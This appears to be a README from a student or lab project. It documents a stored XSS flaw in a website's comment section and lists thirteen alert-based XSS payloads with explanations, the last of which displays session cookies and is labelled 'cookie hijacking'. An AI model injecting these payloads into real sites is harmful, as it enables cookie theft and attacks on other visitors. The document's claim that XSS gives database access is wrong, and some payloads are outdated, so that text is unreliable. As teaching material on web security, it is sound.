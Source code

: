 # Website Link : 

This website is vulnerable in XXS(Cross-Site Scripting).The user input from the comment section is not validated and sanitized.Due to that, XSS scripts(Javascript codes in usual) can be included in the comments.

# XXS(Cross-Site Scripting) Vulnerability Experiment

## Overview

This section documents the XXS vulnerabilities identified in the website []. The vulnerabilities allow unauthorized access to the database, potentially leading to data exposure and manipulation.

## XSS payloads

PLEASE DELETE A COMMENT AFTER THE EXECUTIONS OF THIS COMMENT.WHICH AFFECT THE ANOTHER USER AND YOUR EXPRIENCE.

### 1. Simple Script Alert:
```HTML
<script>alert(\'SCRIPT ALERT\');</script>
```
Explanation: This payload injects a <script> tag directly into the HTML. When the browser encounters this tag, it executes the JavaScript code inside, causing an alert box to pop up with the message "SCRIPT ALERT".

NOTE : the backslash (\) before the single quote (') inside the string tells the interpreter to treat it as a literal character rather than the end of the string.Because comments are passes through the query to save in database, without using backslash causes error and stop the execution of webpage 

### 2. Image Tag with JavaScript:
```HTML
<img src="x" onerror="alert(\'HACKED\')">
```
Explanation: This payload uses an <img> tag with a broken src attribute (x). The onerror attribute specifies JavaScript code to run if an error occurs while loading the image. In this case, it triggers an alert with the message "HACKED".

### 3. Anchor Tag with JavaScript:
```HTML
<a href="javascript:alert(\'YOUR DEVICE IS HACKED\')">Click me</a>
```
Explanation: This payload uses an <a> (anchor) tag with an href attribute set to a JavaScript URI. When the user clicks the link, the browser executes the JavaScript code, causing an alert with the message "YOUR DEVICE IS HACKED".

### 4. Event Handler in a Div:
```HTML
<div onmouseover="alert(\'Do not Touch me\')">Hover over me</div>
```
Explanation: This payload uses a <div> tag with an onmouseover event handler. When the user hovers over the div, the browser executes the JavaScript code, causing an alert with the message "Do not Touch me".

### 5. Body Tag with Onload Event:
```HTML
<body onload="alert(\'DELETE ME\')">
```
Explanation: This payload uses the <body> tag with an onload event handler. When the page loads, the browser executes the JavaScript code, causing an alert with the message "DELETE ME".

### 6. Encoded Characters:
```HTML
<svg onload=alert(\'SVG loaded\')>
```
Explanation: This payload uses an <svg> (Scalable Vector Graphics) tag with an onload event handler. When the SVG is loaded, the browser executes the JavaScript code, causing an alert with the message "SVG loaded".

### 7. Input Field with JavaScript:
```HTML
<input type="text" value="TEXT" onfocus="alert(\'YOU CAN NOT OVERWRITE\')">
```
Explanation: This payload uses an <input> tag with an onfocus event handler. When the user focuses on the input field (e.g., clicks on it), the browser executes the JavaScript code, causing an alert with the message "YOU CAN NOT OVERWRITE".
Note : After execution of this comment, if you receive alert message continously just reload the page.

### 8. Malicious URL:
```HTML
<a href="https://fruits.selfmade.solutions" onclick="alert(\'Are you sure?\')">Malicious Link</a>
```
Explanation: This payload uses an <a> (anchor) tag with an onclick event handler. When the user clicks the link, the browser executes the JavaScript code, causing an alert with the message "Are you sure?".

### 9. Textarea Tag:
```HTML
<textarea onfocus="alert(\'YOU CAN NOT OVERWRITE\')">Focus on me</textarea>
```
Explanation: This payload uses a <textarea> tag with an onfocus event handler. When the user focuses on the textarea (e.g., clicks on it), the browser executes the JavaScript code, causing an alert with the message "YOU CAN NOT OVERWRITE".
Note : After execution of this comment, if you receive alert message continously just reload the page.

### 10. Iframe Tag:
```HTML
<iframe src="javascript:alert(\'New Website availble in comment\')"></iframe>
```
Explanation: This payload uses an <iframe> tag with a src attribute set to a JavaScript URI. When the iframe loads, the browser executes the JavaScript code, causing an alert with the message "New Website availble in comment".

### 11. Style Tag with JavaScript:
```HTML
<style>body{background:url("javascript:alert(\'Background Hacked\')");}</style>
```
Explanation: This payload uses a <style> tag to inject CSS that sets the background of the <body> to a JavaScript URI. When the browser parses the CSS, it executes the JavaScript code, causing an alert with the message "Background Hacked".

### 12. SVG with Embedded JavaScript:
```HTML
<svg><script>alert(\'SVG executed\')</script></svg>
```
Explanation: This payload uses an <svg> tag to embed an <script> tag. When the SVG is loaded, the browser executes the JavaScript code inside the <script> tag, causing an alert with the message "SVG executed".

### 13. COOKIE HIJACKING:
```HTML
 <script>alert(document.cookie)</script>
```
Explaination: This payload injects a <script> tag directly into the HTML. When the browser encounters this tag, it executes the JavaScript code inside, will display all the cookies stored by the site in an alert box.Then the cookies can be sent to the attacker's device in many ways.
